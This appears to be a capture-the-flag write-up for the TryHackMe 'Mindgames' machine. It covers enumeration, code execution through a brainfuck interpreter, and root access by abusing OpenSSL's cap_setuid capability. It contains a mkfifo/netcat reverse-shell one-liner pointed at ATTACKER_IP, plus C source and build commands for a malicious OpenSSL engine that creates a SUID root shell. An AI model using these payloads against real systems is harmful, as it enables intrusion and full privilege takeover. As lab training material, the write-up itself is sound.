



This box is rated medium difficulty on THM. It involves us using a lesser-known programming language to grab a reverse shell on the web server, along with escalating privileges by abusing a capability set on the OpenSSL binary through a malicious library.

_Just a terrible idea..._

## Scanning & Enumeration
I begin with an Nmap scan against the given IP to find all running services on the host. Repeating the same for UDP returns no results.

```
$ sudo nmap -p22,80 -sCV 10.65.155.119 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-09 21:24 CST
Nmap scan report for 10.65.155.119
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds
```

There are just two ports open:
- SSH on port 22
- A Golang web server on port 80

Since this version of OpenSSH isn't prone to anything other than username enumeration, it looks like this machine will be more web-heavy. I fire up Gobuster to start looking for subdirectories/subdomains in the background before heading over to the landing page.



So, right away I recognize this crazy encoding to be an obscure programming language by the name of brainfuck (pardon my French). A bit of history about it - Brainfuck is an esoteric programming language created in 1993 by Urban Müller as an experiment to design the smallest possible compiler, using just eight commands. Despite its extreme minimalism and unreadable syntax, it became popular as a curiosity that explores the limits of language simplicity and Turing completeness.

It truly is meant to be very hard to manually code in, on the other hand the original compiler size was only 240 bytes. On the site are a few test commands that we can use to confirm the language is actually being used here. There is also a function to test run code written in the language, which is likely what we need to exploit.

## Initial Foothold
I'll be using an [online brainfuck encoder](https://copy.sh/brainfuck/text.html) which will turn our reverse shell into memory cell values so that the interpreter will execute commands. Decoding the "Hello World!" example shows that the syntax is familiar to Python so I use a payload to import the OS module and have that make a system call with our arbitrary command.

```
import os; os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP PORT>/tmp/f')
```

Netcat didn't have access to the -e flag, so I went with a standard mkfifo reverse shell. Encoding that and having the server run it grants a successful reverse shell and we can start internal enumeration.



## Privilege Escalation
Looking at `/etc/passwd` shows that there is another user besides root named tryhackme, but we aren't allowed access to their home directory and it does not look like they own any files on the system. 

I go about the usual routes for privilege escalation when landing on a new machine by checking for SUID bits set, loose permissions on backups, or trying to dump a DB but find nothing. To my surprise, I discover that the OpenSSL binary has the `cap_setuid+ep` capability set on it. 

```
mindgames@mindgames:~$ getcap / -r 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```

I often check for files with elevated capabilities but rarely find anything, so this was a shocker. In short, the fact that this binary has this cap set allows any user to execute it on behalf of another account by specifying the UID. All we really need to exploit this is to create a malicious library and load it in order to spawn a root shell.

When OpenSSL is granted the `cap_setuid+ep` capability, it is allowed to successfully call `setuid()` and assume root privileges even when executed by a normal user. By abusing OpenSSL's ability to load external engines or shared libraries, an attacker can execute code that switches the process UID to root, resulting in full privilege escalation. This misconfiguration is dangerous because it turns a widely available utility into an unintended privilege escalation vector.

On my attacking machine I create a file named exploit.c, inside is a standard library that will set our UID to 0 (matching root user) and then copy the bash binary to `/tmp` and set the SUID bit on it. FYI, you can also set the system command to be whatever you'd like.

```
#include <openssl/engine.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("cp /bin/bash /tmp/bash; chmod +s /tmp/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

_Note: The C code above uses the `<openssl/engine.h>` as the engine framework, you can install this on Debian machine with `sudo apt-get install libssl-dev`._

Next, we need to compile the code and make it a shared library.

```
gcc -fPIC -o exploit.o -c exploit.c
gcc -shared -o exploit.so -lcrypto exploit.o
```

After that is taken care of, all that's left is to upload it to the remote machine using an HTTP server and execute openssl while specifying the engine to use our shared library.

```
openssl req -engine ./exploit.so
```



Finally, I spawn a bash shell with the new binary and grab the root flag under `/root/root.txt`. 

That's all y'all, this box was pretty fun but I can see how it could be tricky due to the relatively unknown language and uncommon privesc method. I hope this was helpful to anyone following along or stuck and happy hacking!
